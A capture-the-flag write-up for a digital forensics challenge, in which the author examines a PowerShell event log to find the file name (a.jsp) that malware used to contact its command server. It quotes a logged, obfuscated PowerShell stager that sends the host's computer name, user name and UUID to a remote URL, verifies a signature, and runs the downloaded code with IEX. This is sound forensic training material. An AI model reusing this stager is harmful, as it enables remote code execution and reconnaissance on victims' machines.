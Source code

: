# DFIR 4

**Challenge Description:** A lot of malicious PowerShell activities have triggered our EDR. Please investigate the given event log. What is the file name that being was used by the malware as part of the communication with their C2 server?

**Flag Format:** `ihack{filename.ext}`

After going through the log file manually, the constant invocation of script block IEX stood out of the spotlight the most.

```
ScriptBlock ID: 09ee9e58-6311-4724-871d-737c3f8ad7ba
Path: "
Verbose,8/12/2022 5:37:20 PM,Microsoft-Windows-PowerShell,4105,Starting Command,"Started invocation of ScriptBlock ID: 7b57887c-a71f-4f2e-9502-00ea66c5cc18
Runspace ID: 9f39f3e3-de20-4e46-a1f3-5a77082d269f"
Warning,8/12/2022 5:37:20 PM,Microsoft-Windows-PowerShell,4104,Execute a Remote Command,"Creating Scriptblock text (1 of 1):
if(!$v){$v='?rep_'+(Get-Date -Format 'yyyyMMdd')}

$tmps='function a($u){$d=(Ne`w-Obj`ect Net.WebC`lient).""DownloadData""($u);$c=$d.count;if($c -gt 173){$b=$d[173..$c];$p=New-Object Security.Cryptography.RSAParameters;$p.Modulus=[convert]::FromBase64String(''2mWo17uXvG1BXpmdgv8v/3NTmnNubHtV62fWrk4jPFI9wM3NN2vzTzticIYHlm7K3r2mT/YR0WDciL818pLubLgum30r0Rkwc8ZSAc3nxzR4iqef4hLNeUCnkWqulY5C0M85bjDLCpjblz/2LpUQcv1j1feIY6R7rpfqOLdHa10='');$p.Exponent=0x01,0x00,0x01;$r=New-Object Security.Cryptography.RSACryptoServiceProvider;$r.ImportParameters($p);if($r.verifyData($b,(New-Object Security.Cryptography.SHA1CryptoServiceProvider),[convert]::FromBase64String(-join([char[]]$d[0..171])))){I`ex(-join[char[]]$b)}}}$url=''http://''+''U1''+''U2'';a($url+''/a.jsp'+$v+'?''+(@($env:COMPUTERNAME,$env:USERNAME,(get-wmiobject Win32_ComputerSystemProduct).UUID,(random))-join''*''))'

$sa=([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] ""Administrator"")
```

 The PowerShell script is reaching out to a remote address, presumably the C2 server to retrieve a file `a.jsp`.

**Flag:** `ihack{a.jsp}`